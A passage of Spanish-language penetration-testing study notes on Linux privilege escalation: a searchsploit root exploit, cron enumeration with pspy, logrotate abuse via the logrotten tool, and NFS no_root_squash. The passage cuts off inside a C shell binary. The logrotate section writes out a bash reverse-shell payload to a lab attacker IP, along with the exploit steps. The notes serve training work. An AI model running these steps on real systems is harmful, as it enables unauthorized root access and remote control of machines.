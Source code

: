 ```bash
searchsploit -x 41154
# Tras pasarlo a nuestro sistema lo ejecutamos y somos root automáticamente
```

### Abusando de crontabs
- Enumeramos con `pspy` y la flag `-pf`, que muestra comandos y eventos del sistema cada segundo (`-i 1000`)
	```shell-session
	./pspy64 -pf -i 1000
	```
- Vemos si tenemos permisos de escritura sobre el archivo con `ls -l` en el archivo o la carpeta
### logrotate
Sirve para evitar que el disco se llene descontroladamente de logs. Se ejecuta periódicamente vía `cron` y la configuración suele estar en `/etc/logrotate.conf`
Para explotar logrotate necesitamos lo siguiente:
- Versión `3.8.6`, `3.11.0`, `3.15.0`, `3.18.0`
- Tener permisos de escritura en los archivos de log
- Debe correr como administrador
Existe un exploit, [logrotten](https://github.com/whotwagner/logrotten)que permite explotar esta vulnerabilidad automáticamente
```bash
# Descargar y compilar
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
# Crear payload (podría ser cualquier cosa además de una revshell)
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
# Buscamos un archivo de log sobre el que tengamos permisos de escritura
find / -type f -name "*.log" -writable 2>/dev/null 
# Ejecutamos el script sobre el archivo encontrado
./logrotten -p ./payload /home/htb-student/backups/access.log
# Escribimos cualquier cosa en el archivo de log
echo "hola" > /home/htb-student/backups/access.log
# Tras ponernos en escucha deberíamos recibir una revshell (a mi me ha dado algunos problemas y he tenido qeu borrar logs, volver a escribir en logs e iniciar sesión paralelamente vía ssh)
```

Más info [video ippsec](https://www.youtube.com/watch?v=RBtN5939m3g&t=4347s)
### Miscelaneo
####  NFS (2049): privilegios débiles 
- Cualquier directorio accesible de NFS puede ser listado remotamente con
	```bash
	 showmount -e $target
	Export list for 10.129.2.12:
	/tmp             *
	```
- Si el NFS tiene habilitada la opción `no_root_squash` , si alguien se conecta siendo root en el sistema anfitrión, lo será en el servidor
- Podemos crear un binario, `shell.c`
	```C
	#include <stdio.h>
	#include <sys/types.h>
	#include <unistd.h>
	#include <stdlib.h>
	